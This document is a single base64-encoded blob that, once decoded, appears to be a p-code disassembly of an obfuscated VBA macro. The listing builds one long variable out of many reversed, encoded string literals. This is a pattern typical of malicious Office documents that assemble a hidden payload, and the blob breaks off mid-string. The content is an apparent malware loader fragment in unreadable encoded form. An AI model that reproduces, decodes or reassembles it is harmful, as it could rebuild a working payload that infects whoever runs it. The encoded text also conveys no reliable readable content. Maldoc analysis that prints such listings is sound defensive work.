dEZsUVNkVlVDNVVWUkpqU1ZGMWFHVlZVRVpVUk5ORVpZZGxRV0ZqVUNabGJSNW1TWEZGTmpWVlV4cFVWUnBrUiIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzYwOgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJXRmxXa1ZWVXVaRU1rcG1SVlJWU0dWa1lEUm1NWkprUnhJbFEwMVdVU1prVlJKa1dWRjFTS1ZWVk5aVVZSUmtSRkoyUWtOVFdDeFdSVEpFZXRGbGJTZFZVV1JXVlJSbFNWVlZUR1ZWVUVaRU1rTkVaWWRsUUd4bVVDNWtiUkprU1hGbFZrVlZVMnBFTWtabFJWTlZTR1ZrWURSR1NhSkVhNkpsUUd4V1VTaFhWUlpGWlZGVmVLQkRacFpVVlhsa1JWUjJRR0ZUViIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzYxOgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJoWlVWWGxrUnJSMlFrZDFWQ1pWVlNKRWRWRmxVU1ZWVTJaVVZSOWtSVkYxVEdWVlZGWlVSTkprUnJSbFFHQlRVQ0prYVI1bVRYRkZOalZWVVNwVVZWMWtSVkZGUkd0V1pDWkVNVUpFZEhKbFFzMVdVdWxUVlJKRlpWRlZNRlZWVmhaVVZYaGtScjVrUWsxMlZDeFdNU0prVlVGbGJ4VVZVMkpWVlJGblNWRmxUR1YxVUZaMGFPSkVaeVFsUUdWa1VDSkZWUkpGYyIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzYyOgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJZWmxRc1YwVUNoWGJSTmpVWEZGTmpWVlVTcFVWUnBrUlZaRlNHdFdURFprVlpKa1JHTmxRdzFXVVN4bVZScEVhVkYxY0tWVlVyWlVST2hrUkZOMlFHVjFVQ0psZVNKRWF0RmxRc1ZWVWFSV1ZSSmpTVkZsU0dWbFZJWkVNak5rUndrbFFDcG5VQ2hXYlJKa1ZYRmxWa1ZWVXVaRU1hbG1SVkpGU0dCaldDUjJNWkprVEhObFFhNVdVQ1owVlI1RWFWRmxiR1ZWViIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzYzOgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJTQm5WUkJ6WVZGbGJHVlZWU1pVVlJSa1JWUm1RazFHVkN4bVJUSmtSc0ZsVU9aVlVDNVVWUlZqU1ZWVllHVjFWSlowYWtOa1JWTmxRa05qVUM1a2JSSkZjV0ZsYmtWVlUyb1VWUnBrUlZWVlNHdFdZRFpFYlhKa1U2SmxRVzVXVXpvMFZSNUVaVkZsYkdWVlZoWlVWVWxrUlZWMlFHeDJWQ3htUlRKRWV0RmxiT2RWVUM1VVZScG5TVkZWYUdWbFZJWkVNaU5FWiIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzY0OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJWRmxTR0JUV0laVVZrTmtSV2xsUVNwblVDaFhiUkprVVhGbFRvVlZVM3BVVlJsbVJ3SW1RR3RHVkNaRWJYSkVid0lsUWtkVlVDSjFWUjVFYVZGRmVKVlZWcFpVVlJSa1JWVjJRR3gyVkNKbGVTSkVldEZsUVNkVlVPaFdWUmRuU1ZGVmFHVlZVRVpVUk5Oa1JXZGxReEFqVUN4bWJSSkZjV0ZsYW9WVlV5b1VWUnBtUkY5RVJHVlVURFprVlhKVU13SWxRQ3BXVSIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzY1OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJDUm1NVUprUkZObFFDcFdVQ0oxVlI1R1pWRkZUR1ZWVkZaRU1qWmtSd1ExUUdGVFZDUkdXU0prVllGbGJPVlZVM1ZVVlJ4a1JWVlZSR1ZWVUVaVVZrSmtSRnBsUXNWMFVDcGxiUkprVFhGbFFPVlZVeXBFTWFsbVJWSkZTR0JqV0NaVVZXSkVkWEpsUWtkVlV1cDBWUlpGWlZGVmVKVlZWb1pFTVpoa1J3b2xRR3gyVkNSbU1TSmtRcUZsUXNWVlV3TVdWUkpqUyIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzY2OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJxRjFNNFZWVVdKVlZSTmpSd1FXVEdWbFZGWlVSbEprUlZSbFFzVmtVQ3BGV1JKbFNYRkZOalZWVXhwRU1hMWtSVk5WU0dWa1lEWlVSYUpVTUZObFE0MVdVQ0oxVlJCellWRmxNS1ZWVm9aVVZWbGtSRkYyUWtKVFdDWmtSVEpFZXRGbGJLZFZVV1JXVlJOalNWVmxXR1YxVklaMGFrTkVaWGRsUVdCalVDNWtiUjVHZVZGbGFvVlZVNmxFTWt0bVJGOUVSR3RHWiIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzY3OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICIyb1VWUnBtUlZWVlNHVlVURFpVVlpKVU9YRmxRMVVWVUNwMFZSZDNZVkYxZEpWVlVvWlVST1JrUkZWbVFHWkVWQ1IzUlRKRWF0RmxRd1pWVTMxVVZSWmpTVkZWYUdCRFpJWlVSaU5rUlZsbFF4VTBVQ0pGV1JKa1NYRjFNa1ZWVXpwVVZSaG1SVlJWU0dWVlpEWkViWEprVEhObFFhNVdVQzUwVlJkWFRWRkZkS0JEWnBaVVJOUmtSck4yUUd4MlZDWlZNU0prVCIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzY4OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJGRjJRR3hXV0NobWVSSkVidEYxTUtkVlV6UVdWUkJuU3dRV1RHQkRaSVpFTWpOa1JzZGxRa0pqVUNCbmJSNW1UWEZsVmtWVlU2bEVNa2xtUlZGVlNHdEdaQ1pFYlhKa1J4SWxRR3BXVUNKMVZSSkhaVkYxZEpWVlVyWlVWV2hrUlZSMlFraEVWQ0prZVNKa1d1RjFNc1pWVXcwVVZSQm5TVlYxYUdCaldJWlVSTk5rUldsbFFPSmpVQ3BGV1JORGVWRmxkU1ZWVSIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzY5OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJDeG1iUkpsU1hGbFJrVlZVMm9FTWsxa1JGMUVTR3RHWkRSR1dYSmtVNkZsUXMxV1VTSjFWUjVHWlZGMWRKVlZWb1pFTVpoa1JyUm1Ra2hFVkNselJTSkVjdUZsUU9kVlVTaFdWUmRYU1ZGRmFHQmpZQ1owYVVKa1JXUmxReFUwVUNSbWJSNUdlVkZGTWpWVlU0bEVNYUZtUlZOVlNHVmtZRFJHU2FKRWE2SmxRazVXVXpnWFZScEVhVkYxY0tWVlVyWlVWVWxrUiIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzcwOgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJWRmxjS0JqV3BaRU1oaGtSd0UxUUdWa1dDWlZNU0prVHVGbFF3WlZVM05XVlJWa1N3UUdXR1ZWVUVaRU1hSmtSVk5sUUdCVFVDUlhWUkpsVVZGbFFPVlZVdVpVVlJwa1JWRkZSR0JqV0NaVVZUSmtVRUpsUXdkVlV1NVVWUmRYUlZGVmRLQmpXcFpVVlNoa1J3STJRa05UV0NSbk1TSmtWdUYxTTRWVlU2UldWUkpqU1ZGRmFHVkZWSlpVUmhOa1JGcGxRV0JqVSIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzcxOgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJKWlVSaE5rUlZabFFHQlRVQ0pWYlJKRmRWRmxTT1ZWVXpwRU1rcG1SVk5WU0dWa1lEUjJSYUprVnhJbFFzNVdVdXhXVlJkWFVWRjFjS1ZWVnBaVVZTaGtSd1ExUUdWa1dDWlZNU0prVXNGbGJPZFZVV1JXVlJkWFNWVlZZR1ZVVElaVVJoTkVaeWtsUVdCalVDWkViUkprVVhGMU1rVlZVNGxVVlZwbFJWZEZTR1ZrWURaMGFWSkVaeUVsUTEwV1V1cDBWUkpIWiIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzcyOgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJ3SWxRMXNXVUN4V1ZSTmpUVkYxTUdWVlVLWlVSTlZrUndvbFFrMVdXQ2htZVNKa1F1RmxRU2RWVXlSV1ZSWmpTd1FXYUdWVlVIWkVNaUpFWnlrbFFXRmpVQ0prYVJKRmNXRjFkalZWVXZwRU1hcG1SVkpGU0dWVlZEUjJNV0prUndFbFFrZFZVQ3hXVlJKa1RWRmxiR1ZWVUtaVVZSUmtSd29sUWtKVFVDSkVWUkpFZFZGbFVTVlZVdTVVVlJCalNWVmxXR1YxVSIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzczOgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJXUldWUlpqU3dvbGFHVmxWSVowYU5Oa1JzZGxRc1YwVUN4MlZSSmxRV0ZsVmtWVlV3b1VWVnBsUkY1a1JHVlVURFpFYlhKVU1ySmxRczVXVVNCblZSSkZhVkYxY0tWVlZwWlVWU2hrUlZWMlFHWjFWQ1owYVNKRVpYRmxRNFZWVVdSV1ZSaFhTd29sYUdWVlZKWkVNaEprUlZObFFDUmtVQ1IyVlJKbFZYRmxTb1ZWVXlvVVZSdG1SVkpGU0dCVFlEUldiWkprViIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzc0OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJWVkZTR1ZGWkRaa1ZYSmtRVUpsUWtkVlVDaFhWUkprVVZGbGJHVlZWUlpVVlJSa1JWUjJRazVXV0NSbk1TSmtRcUZsVUdkVlVPaFdWUkpqU1ZGbFZHQmpXRVpVVmxOa1JzZGxRR1owVUNoWGJSSmxTWEZsUmtWVlUxb1VWVnBsUlZGMVJHdFdXRFpVVlRKa1J3RWxRa2RWVUN4V1ZSSmtUVkZsYkdWVlVLWlVWUlJrUndNbFFHWmtVQ0prYVNKa1FZRmxic1ZWVSIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzc1OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJDSkVWUkprVXRGbFUwVlZVSzVVVlJKblN3b1ZhR0JUWUlaVVZoTkVaWE5sUUNSa1VDaFhiUkpsU1hGbFJrVlZVUXBVVlJ0bVJWWkZTR1ZrVkRSbU1aSmtWeElsUUNwV1VTQm5WUmQzWVZGMWJLQmpXcVpVVlNoa1JWVjFRR1YxVUNSMk1SSkVldEYxTU9kVlV6UVdWUjltU3dvVllHVlZWRVpFTWFKa1JHVmxRR0JUVUNabGFSNW1UWEZGTmpWVlUzbFVWVnBsUiIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzc2OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJWRmxkR1ZWVVBaRU1hUmtSRjFrUUdCellDUjJNWkpVTUZObFE0MVdVdTUwVlJKRlpWRmxjS1ZWVlNaVVZSZGtSck4xUUd0MlVDWkVNUkpFWlhGbFFzVlZVQzVVVlI1bVJWRmxTR1ZWVUVaRU1hSkVaeUVsUUNSVlVDSlZiUk5EY1dGRk1qVlZVM3BFTWFwbVJWVlZTR1ZrVkRSMk1XSmtSd0VsUWtkVlVDeFdWUkprVFZGbGJHVlZVS1pVVlJSa1J3b2xRa0pUVSIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzc3OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJLWkVNaGxrUlZWMlFrNVdXQ1prUlRKRWF0RmxRd1pWVXdNV1ZSOW1TVlZWVkdWVlVFWkVNakprUldSbFFHQlRVQ3hHVlJKRWJWRkZNalZWVXlvVVZWaG1SVlZWU0dWMFlEUjJNWkpFYTZKbFFHeFdVQ1JYVlJwRWFWRjFjS1ZWVXJaVVZXaGtSRlIyUUdaMVZDeFdSVEpFYXRGbFFXWlZVNnBWVlI1bVJWRmxTR1ZWVUVaRU1hSmtSVk5sUUdCVFVDUjJWUkpFYiIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzc4OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJWTmxRR0JUVUNSMlZSNW1UVkYxZEZWVlVycFVWVnhrUlZORlJHVmtZRFIyTVpKRWJGTmxRNDFXVXVKMVZSWkZaVkZWTktCaldLWlVSTlZrUkZKMlFHeFdXQ1pGTVNKVU9yRmxRU2RWVVdSV1ZSVmxTd29sYUdWbFZJWlVSTk5rUnNkbFFDcG5VQ2hXYlI1bVRYRmxSa1ZWVVNwVVZScGtSd1FHUkdWa1lEWmtSYUpFYkZObFFDcFdVQ0JYVlJKa1RWRlZORlZWVSIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzc5OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJDeFdWUmRYVVZGbGJHVlZWc1pVVlRsa1JyUjJRR1ZrV0NaRk1TSkVkdEZsYktkVlVHUldWUjlrU1ZGbFNHQkRaRVpVUmxKa1JWTmxRQ1JrVUNSMlZSNW1TWEZGTmpWVlUzcFVWUnRtUndFR1NHdFdaRFJtYlpKa1JySmxRNWNWVXU1MFZSWkZaVkYxZEpWVlZoWlVSTmhrUkZGMlFrSlRXQ1pGTVNKa1JzRjFNa1pWVUM1VVZSNW1SVkZsU0dWVlVFWkVNYUprUiIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzgwOgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJWRmxTR1ZWVUVaRU1hSmtSVk5sUUdCVFVDUjJWUkpFYlZGbFFPVlZVTVpVVlZWa1JGMTBSR1YwWUNSMlZUSmtSeElsUVc1V1VTWjBWUnBFWlZGRmNHVlZWUlpVVldoa1JGUjJRR1oxVkNKRlZTSmtRcUZsVXdaVlVPcFZWUlZqU1ZWVllHVlZWSlpVUmlOa1JzbGxRV0JqVUN4bWJSSkZiV0ZsUWFWVlV1WlVWUjFrUlZaRlNHVlZURFJtTVpKa1JHTmxRMGRWVSIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzgxOgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJEWkViWEprUkdObFE0MVdVU3AwVlJaRVpWRlZOS1ZWVmFaVVZSZGtScmwxUUdWMVVDWkVNUkpFWlhGbFFzVlZVQzVVVlI1bVJWRmxTR1ZWVUVaRU1USmtSR0psUTVjVlVDVlRWUkpFZVZGbFVvVlZVMW9FTWtsbVJWRjFSR0JUWUNaVVZUSmtSd0VsUWtkVlVDeFdWUkprVFZGbGJHVlZVS1pVVlJSa1J3TWxRR1prVUNKa2FTSmtRcUZsYktkVlV5WlZWUmxtUyIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzgyOgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJxRjFNV1pWVTZwVlZSNW1SVkZsU0dWVlVFWkVNYUprUlZObFFHQlRVQ1IyVlJKRWJWRmxkR1ZWVVBaVVZWbGxSd0VHUkdWVllDWkViWEpVTUZObFFzNVdVU0JuVlJwRmFWRjFjS0JqV3FaVVZUUmtSVjlrUUd4MlZDSmtlU0pFYXRGbGJTWlZVU2hXVlJOblN3UW1WR1YxVUpaVVJpTmtSRnBsUVdGalVDSmxiUkpGYldGbFNvVlZVdnBVVlJabFJ3b0ZSR1ZWWiIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzgzOgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJ3b1VWVnBsUlZOVlNHVlVZRFpVVldKa1R1SmxRa2RWVUN4V1ZSSmtUVkZsYkdWVlVLWlVWUlJrUndvbFFHVjFVQ2x6VlJKVU5WRmxiT1ZWVTNWVVZScG5SVlZWWUdWRlZKWlVWbE5rUnNkbFFzWjBVQ2hYYlI1bVZXRmxVT1ZWVXVaVVZScGtSVkZGUkdCaldDWlVWVEprUndFbFFrZFZVQ3hXVlJablJWRjFUR1ZWVlpaRU1haGtSckYyUUdWa1dDUm5NU0prVCIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzg0OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJGWjFRa05qVkNaRU1SSkVaWEZsUXNWVlVDNVVWUjVtUlZGbFNHVlZVRVpFTWFKRVp5RWxRQ1JWVUNKVmJSSkZkVkZsU09WVlV5cEVNYWxtUndFR1NHVlZZRFIyVlRKa1FFSmxRNDFXVVNwMFZSWkVaVkZGVUtWVlVyWlVWV2hrUkZaMVFrSlRXQ1pWTVNKa1FxRmxVd1pWVTNOV1ZSOW1Td29sYUdWbFVJWlVWVk5rUndNbFFzVjBVQ2hYYlJKa1VYRmxWa1ZWVSIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzg1OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJDUjJWUkpFYlZGbGRHVlZVUFpVVlJwa1JWRkZSR0JqV0NaVVZUSlVPWEZsUTFVVlV1NVVWUmRYUlZGMWRHVlZVS1pVVlJSa1J3b2xRR1YxVUNselZSSlVOVkZsYk9WVlUzVlVWUkpuU3dvVmFHQlRZSVpFTVJOa1JyTmxRR0JUVUNSMlZSSkViVkZsUU9WVlV1WlVWUnBrUlZGRlJHQmpXQ1JtTVJKa1FVRmxRUzFXVUNaMFZSNUVaVkYxZEpWVlZvWkVNWmxrUiIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzg2OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJWRmxkS1ZWVXJaVVZSUmtSVkoyUUdaVldDWkVNUkprU3VGMU1zWlZVR1JXVlJCblNWRmxTR1ZWVkpaMGFoTmtSc2RsUVNwblVDWmxiUk5qU1hGbFRXVlZVeFpVVlJwa1JWRkZSR0JqV0NaVVZUSmtSd0VsUWtkVlVDeFdWUkprVFZGRlRHVlZWRlpFTWpsa1J3b2xRR1YxVUNaRU1SSkVaWEZsYk9WVlUzVlVWUjVtUlZWRmJHVjFVSlpVUk5Oa1JWTmxRR0JUVSIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzg3OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJKWlVSaU5FWlhabFFHRlRVQ2x6VlJKRWJWRmxXa1ZWVTNwVVZScGtSVkZGUkdCaldDWlVWVEprUndFbFFrZFZVQ3hXVlJKa1RWRkZUR1ZWVkZaVVJPUmtSd0UyUUd4MlZDRlRSVEprUnFGbFFzVlZVT2hXVlJkblNWRmxTR0JqV0laMGFoTmtSRnBsUTBKalVDNWthUk5qVFhGbFFPVlZVenBFTWtwbVJWTlZTR1ZrWURSMlJhSmtWeElsUXM1V1VDeFdWUlpGWiIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzg4OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJ4SWxRNXNXVUN4V1ZSZFhVVkZsYkdWVlVyWlVST2hrUkZKMlFHWlZXQ1IyTVNKRWN0RmxRd1ZWVUM1VVZSNW1SVkZsU0dWVlVFWkVNYUprUlZObFFHQlRVQ1IyVlJKRWJWRmxRT1ZWVXVaVVZScGtSd0ltUUd0R1ZDUkdXYUprUndFbFFrZFZVQ3hXVlJKa1RWRmxiR1ZWVUtaVVZSUmtSd29sUWtKVFVDSkVWUkprUVlGbFV3WlZVT2hXVlJWalNWVlZZR1YxViIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzg5OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJHWlZWUkpsU1ZWRlZHVlZWRVpFTWlKa1JGcGxRU3BuVUNoWGJSSmxSWEYxTWtWVlVGcFVWUlpsUlZSbFJHVmxWRFIyUlVKVU1GTmxRQ3BXVVNCblZScEhaVkZWY0tCRFpwWlVWVWRrUlZSbVFHVmtXQ1pWTVNKVU9yRmxiNFZWVTNOV1ZSTm5TVkYxYUdWRlZKWlVWT05FWllabFFHQlRVQ0prYVJORGJXRmxWa1ZWVTRwRU1hcGxSRjlrUkdWRVpDUkdTYUprViIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzkwOgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJWRkZSR0JUWURSV2JaSkVkeUlsUU90V1V6d1dWUkprVFZGbGJHVlZVS1pVVlJSa1J3b2xRR1YxVUNaRU1SSkVaWEZsYk9WVlUzVlVWUnhrUlZWVlJHVlVUSlpFTWFKa1JWTmxRR0JUVUNSMlZSSkViVkZsUU9WVlV1WlVWUnBrUndJbVFHdEdWQ1pVTVRKa1JHTmxRczVXVXpvMFZSSmtXVkZsY0dWVlVOWlVWVWxrUnJWMlFHeDJWQ3hXUlRKRWR0RmxRd1pWVSIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzkxOgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJDWlZNU0pFY3VGbFVTZFZVQzVVVlJaalNWVkZhR1ZWVUVaRU1pTkVaWWRsUUdaMFVDSmtiUk5qVVhGbFRvVlZVdVpVVlJGbVJGNUVTR1YwWURSMlZWSmtSd0VsUXgwV1VTWjBWUkprVFZGMWRKQmpXcVpVUlBoa1J3UTJRR1YxVUNaVU1TSkVldEZsUXdaVlV5UldWUmxYU3dRV2FHVjFVSlpFTWtOa1JWTmxRV0ZqVUNsVGJSSmtVWEZsUU9WVlV5b1VWUnRtUiIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzkyOgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJWRmxRT1ZWVXVaVVZScGtSVkZGUkdCaldDWlVWVEprUndFbFEwVlZVU0pWVlJwSGFWRmxiR1ZWVUtaVVZSUmtSd29sUUdWMVVDWkVNUkpFWlhGbFFzVlZVMlpVVlI5a1JWVkZUR1ZWVklaVVZrTmtSV2xsUXNWbFVDUjNWUkpFZFZGbFFPVlZVMHBVVlZobVJWRkZSR0JqV0NaVVZUSmtSd0VsUWtkVlVDeFdWUkprVFZGbGJHQmpXRVpVUk5Ka1JWUm1RR3QyViIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzkzOgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJxWkVNaGhrUlZSMVFHQlRXQ0ZETVNKa1ZzRmxiNFZWVU9oV1ZSZFhTVlZWWUdCellJWjBhaE5FWnVsbFF4c21VQ1pGV1JKa1VYRmxWa1ZWVVFwRU1hMWtSRjFFU0dWa1lEWlVSYUpVTUZObFFXcFdVellsVlJwbldWRmxiR1ZWVlJaVVZSUmtSVlYyUUd4MlZDSmxlU0pFZXRGbFFTZFZVT2hXVlJkblNWRlZhR1ZWVkVaRU1hSmtSVk5sUUdCVFVDUjJWUkpFYiIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzk0OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJ4TWxRa0pUVUNKa2FSNW1UWEZsUmtWVlUzbEVNa3BtUkY1RVJHVlZaRFpFYlhKa1U2SmxRNDFXVUNKMVZSNUVhVkYxZEtWVlVwWlVWVlJrUndvbFFHVjFVQ1pFTVJKRVpYRmxRc1ZWVUM1VVZSNW1SVkZsU0dWVlVFWkVNYUprUlZObFFHQlRVQ1JYVlJKbFVWRmxVb1ZWVTFvRU1rbG1SVkYxUkdCVFlDWmtSWEpFYkZObFE0MVdVdXAwVlJaRlpWRjFkSkJEWiIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzk1OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJTQm5WUjVFWlZGVmNLVlZWU1pVUk9Sa1JWVjJRR3gyVkNKbGVTSkVldEZsUVNkVlVPaFdWUmRuU1ZGVmFHVlZWRVpFTWFKa1JHVmxRR0JUVUNKa2FSNW1TWEZsVmtWVlUzcFVWUmxtUlZSRlNHQlRZQ1pVVlRKa1J3RWxRa2RWVUN4V1ZSSmtUVkZsYkdWVlVLWlVWUlJrUndvbFFHVjFVQ1pFTVJKRVpYRmxiT1ZWVTNWVVZSNW1SVkZsU0dWVlVFWkVNYUprUiIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzk2OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJWVlZZR1YxVUpaVVJOTkVaemtsUUdGVFVDUjJWUkpFYlZGbFFPVlZVdVpVVlJwa1JWRkZSR0JqV0NaVVZUSlVPWEZsUTFVVlV1NVVWUmRYUlZGbGJHVlZWdFpVVlJSa1J3b2xRR1YxVUNaRU1SSkVaWEZsUXNWVlVDNVVWUjVtUndvRlJHVlVUQ1pVUmpKa1J3TWxRR1owVUNabGJSSkZjV0ZsY2tWVlU2cEVNa0psUlZGVlNHdFdZRFowYVdKa1JHTmxRazVXVSIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzk3OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJDWmtSWEprUXFKbFFLMVdVU0JuVlJKRmFWRlZNSkJqV2FaRU1qZGtSd29sUUdWMVVDWkVNUkpFWlhGbFFzVlZVQzVVVlI1bVJWRmxTR0JqWUNaMGFVSmtSeE1sUWtKVFVDSmxiUkpGYldGbFZrVlZVMW9VVlJ0bVJWUjFSR1ZVVERaRWJYSmtUWEpsUVdoVlVDSjFWUkJ6WVZGMWNLVlZWb1pFTWtoa1JyRjJRR3QyVUNaRU1SSkViVUZsUXNWVlUzTldWUjltUyIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzk4OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJ0RmxVc1pWVUtSV1ZSNW1SVkZWWUdWa1RJWlVSaU5FWllabFF4QVRVQ1IyVlJKRWJWRmxRT1ZWVXVaVVZScGtSVkZGUkdCaldDWlVWVEpVT1hGbFExVVZVdTVVVlJkWFJWRlZOSlZWVU9aRU1qbGtSRkptUUd0bVdDWmxSU0pFY1lGbFUxVVZVV0pWVlJsWFJ3b1ZUR1ZrVEVaRU1rSmtSVk5sUUNSa1VDUjJWUk5qVFhGbFZrVlZVM2xVVlZ4bVJWTkZTR0JUWSIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzk5OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJ1WlVWUnBrUlZGRlJHQmpXQ1pVVlRKVU9YRmxRMVVWVVNCblZSZDNZVkYxYktCaldwWlVWVGxrUkZKMl